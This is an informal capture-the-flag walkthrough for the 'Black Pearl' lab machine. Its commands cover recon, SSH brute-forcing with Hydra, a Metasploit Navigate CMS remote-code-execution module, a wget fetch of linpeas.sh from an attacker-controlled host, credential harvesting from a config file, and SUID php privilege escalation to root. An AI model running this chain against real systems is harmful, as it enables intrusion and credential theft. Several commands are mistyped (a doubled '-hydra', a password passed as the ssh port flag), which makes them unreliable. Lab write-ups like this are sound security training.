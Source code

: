 
**nmap -A -p- 192.168.86.199**
   '''
   PORT   STATE SERVICE VERSION \
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) \
    | ssh-hostkey: \
    |   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA) \
    |   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA) \
    |_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519) \
    53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux) \
    | dns-nsid: \
    |_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian \
    80/tcp open  http    nginx 1.14.2 \
    |_http-title: Welcome to nginx! \
    |_http-server-header: nginx/1.14.2 \
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel \
    '''
---
**ffuf - No good**
---
**HTML**
    '''
    http://<ip>
    + <body>
    + <!-- Webmaster: alek@blackpearl.tcm -->
    + <html>
   '''
---
**Gobuster**
`gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --wildcard 2>/dev/null | grep "Status: 200"`
/secret               (Status: 200) [Size: 209]
    'DL file:
        OMG you got r00t !
        Just kidding... search somewhere else. Directory busting won't give anything.
       <This message is here so that you don't waste more time directory busting this particular website.>'
---
**Hydra**
`hydra -hydra -l alek -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.199`
---
**DNSRECON**
`dnsrecon -r 127.0.0.0/24 -n 192.168.86.199 -d extra` (-d is domain && any domain is required) #**Virtual Host Routing** \
             '''
        [*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255 \
        [+] PTR blackpearl.tcm 127.0.0.1 \
        [+] 1 Records Found' \
             '''
   
1. **sudo vi /etc/hosts** \
        <ip>    blackpearl.tcm \
        visit http://blackpearl.tcm \
            Linux blackpearl 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 
        fuff once again:
            /nagivate - login.php ( Navigate CMS v2.8, © 2021)
                    #Always google new environment
                https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/  
        `msfconsole use exploit/multi/http/navigate_cms_rce`
        `set domain - blackpearl.tcm : run`
                
 2. **meterpreter > shell:** \
        'python -c 'import pty;pty.spawn("/bin/sh")'' 
            - pwd: ~/blackpearl.tcm/navigate 
            - ls -alth #This directory has higher permissions
        'wget http://<ip>/linpeas.sh linpeas.sh' # upload privecs
   
 3. **linpeas.sh:**
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_PASSWORD', "H4x0r");
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_USERNAME', "alek");
        + 'show databases; show tables; use navigate'
                'select * from nv_users; ::
                 alek && PW: 26f1e0e7b718d27e0428e1b3b4b3f677 #wasted time to break hash'
   
 4. **ssh alek@<ip> -p H4x0r**:: **Success**
            `find / -perm /6000 2</dev/null` ![GTFObins](https://gtfobins.github.io/gtfobins/php/#suid)
                #/php - GTFObins - click php -> SUID
            `/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"`  # **Success**
   '''
                        $ whoami::
                          root
                        $cd root/ && cat flag.txt ::
                            'Good job on this one. Finding the domain name may have been a little guessy, but the goal of this box \ 
                             is mainly to teach about Virtual Host Routing which is used in a lot of CTF.'
   '''

                    
